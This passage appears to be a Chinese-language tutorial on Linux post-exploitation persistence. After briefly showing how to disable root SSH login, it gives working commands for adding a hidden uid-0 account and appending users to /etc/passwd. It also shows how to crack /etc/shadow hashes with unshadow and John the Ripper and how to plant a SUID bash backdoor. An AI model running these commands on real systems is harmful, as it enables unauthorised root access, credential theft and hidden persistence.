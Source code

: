 管理员可以**禁止root用户**通过**ssh**的方式，远程登录服务器。

**禁止方法**如下：
（首先保证拥有一个普通用户，否则禁用之后就无法远程登陆了）
`vim /etc/ssh/sshd_config`打开 sshd_config 文件
找到 `PermitRootLogin`，改为 no
![image-20230426005055500](https://res.cloudinary.com/sycamore/image/upload/v1682441458/Typera/2023/04/fd0d61d6e7b7879eb2ea1d5f0de03dd5.png)然后重启ssh服务
此时再通过 xshell 远程登录root账户，就会被拒绝：
![image-20230426005101801](https://res.cloudinary.com/sycamore/image/upload/v1682441465/Typera/2023/04/d70b4faf22b9b537f1bbe6bb7f20d1f3.png)

如果遇到了禁用uid=0账户远程登录的情况，也可以增加一个**普通用户**：
`echo "用户名:x:1000:1000::/:/bin/sh" >> /etc/passwd`
道理都是一样的，可以观察到，我们使用的普通用户的ID就是1000

### 无交互情况下添加账户
所利用漏洞的不一样，会导致攻击者可能面临无法交互、没有回显的情况，
在这种情况下，使用前两种方法是困难的，先给出如下的方法：

命令`useradd 用户名 -u 0 -o -g root -G root`以及`echo "密码" | passwd --stdin 用户名`，
若服务器基于**Debian**，即不能使用 --stdin 操作的话，第二条改用命令`echo 用户名:密码 | chpasswd`，或者粗暴地直接用 \n 回车（因为 passwd 是需要**输入两次**密码的）：`echo "密码\n密码" | passwd 用户名`

- 第一个命令：使用useradd命令增加用户，-u 设置用户id为0（root用户），-g-G设置新用户所在群组及附加群组为root。如果禁止root远程登录，更改对应的参数就行。
- 第二个命令：添加密码（linux中新创建的用户是被锁定的，需使用passwd命令设置密码，才能投入使用）

### 
但是这种增加用户账号的方法，会很轻易地被管理员发现

## 破解用户密码
如果我们获得了某些用户的密码，那下次自然就可以直接登录了。

linux 在 passwd 中存储了用户的信息，但是 passwd 文件允许**所有用户读取**，所以若是用户密码也存放在 passwd 中，将导致用户密码**泄露**。
因此 Linux 将密码信息**单独存放**到 shadow 文件中。shadow **只有 root 用户**拥有读权限，其他用户**没有任何权限**，从而保证用户密码的安全性。

但是，如果获得shadow文件**（/etc/shadow）**，你会看到里面的密码是这样的：
![image-20230426005115328](https://res.cloudinary.com/sycamore/image/upload/v1682441478/Typera/2023/04/ee471def5fbcc8ec8666e76bd4403e8d.png)当然是密码的hash值，不会让你直接看到的密码的明文

但是，对于那些薄弱的密码，我们可以通过 **John the Ripper** 弱口令扫描工具（Kali 自带）进行破解。使用方法如下

1. 使用 unshadow 命令组合 passwd 和 shadow，获得 test：`unshadow /etc/passwd /etc/shadow > test`
2. 字典破解：使用自带的字典（usr/share/john/password.lst）：命令`john test`
使用自己的字典：命令`john --wordlist=字典路径 test`

## 放置SUID Shell
前提：getshell，已获得服务器的root权限

SUID Shell 是一种**能以 shell 拥有者权限运行**的 shell，
这个后门其实就是更改了，拥有者为root的shell的属性（rwsr-xr-x）

### 命令
root下执行命令：
`cp /bin/bash .shell`
`chmod u+s .shell`
解释：
1. 复制 /bin/bash 为当前目录下名为 .shell 的文件，
2. 更改 .shell 文件权限，设置为 u+s 后，其他用户**都享有文件拥有者的权限**（而当前为 **root**，即享有 root 权限）

